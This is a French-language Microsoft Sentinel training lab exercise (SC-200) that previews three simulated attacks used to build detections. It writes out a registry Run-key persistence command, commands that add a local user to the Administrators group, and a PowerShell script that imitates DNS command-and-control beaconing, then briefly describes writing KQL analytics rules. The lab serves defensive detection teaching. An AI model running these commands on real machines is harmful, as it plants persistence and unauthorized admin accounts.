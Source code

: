 ```yaml
---
lab:
  title: "Exercice\_5\_: comprendre la modélisation de la détection"
  module: Learning Path 7 - Create detections and perform investigations using Microsoft Sentinel
---
```


# Chemin d’apprentissage 7 - Labo 1 - Exercice 5 - Comprendre la modélisation de la détection

![Vue d’ensemble du labo](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex5.png)
### Tâche 1 : comprendre les attaques

>**Important : vous n’effectuerez aucune action dans cet exercice.**  Ces instructions décrivent simplement les attaques que vous allez effectuer dans l’exercice suivant. Veuillez lire attentivement cette page.

Les modèles d’attaque sont basés sur un projet open source : https://github.com/redcanaryco/atomic-red-team


#### Attaque 1 : persistance avec l’ajout de la clé de Registre

Les attaquants ajoutent un programme dans la clé Exécuter le Registre. La persistance est obtenue en exécutant le programme à chaque fois que l’utilisateur se connecte.

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### Attaque 2 : ajout d’un utilisateur et élévation des privilèges

Les attaquants ajoutent de nouveaux utilisateurs et élèvent leurs privilèges au niveau du groupe Administrateurs. L’attaquant peut alors se connecter avec un autre compte élevé.

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### Attaque 3 : DNS / C2 

L’attaquant envoie un nombre élevé de requêtes DNS à un serveur de commande et contrôle (C2). L’objectif est de déclencher une détection basée sur des seuils en fonction du nombre de requêtes DNS provenant d’un système source unique ou d’un domaine cible unique.

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```


### Tâche 2 : comprendre la modélisation de la détection

Le cycle de configuration de détection d’attaque utilisé dans ce labo représente toutes les sources de données, même si vous ne vous concentrez que sur deux sources de données spécifiques.

Pour créer une détection, commencez par écrire une instruction KQL. Étant donné que vous attaquerez un hôte, vous aurez des données à son sujet pour commencer à générer l’instruction KQL.


Une fois l’instruction KQL prête, vous devez créer la règle analytique.

Le déclenchement de la règle entraîne la création d’alertes et d’incidents. Examinez-les pour déterminer si vous communiquez des champs aux analystes des opérations de sécurité pour les aider dans leur investigation.

Vous devez ensuite apporter d’autres modifications à la règle analytique.

>**Remarque :** certaines alertes sont déclenchées dans un délai plus court uniquement dans le cadre de notre labo.

## Passez à l’exercice 6
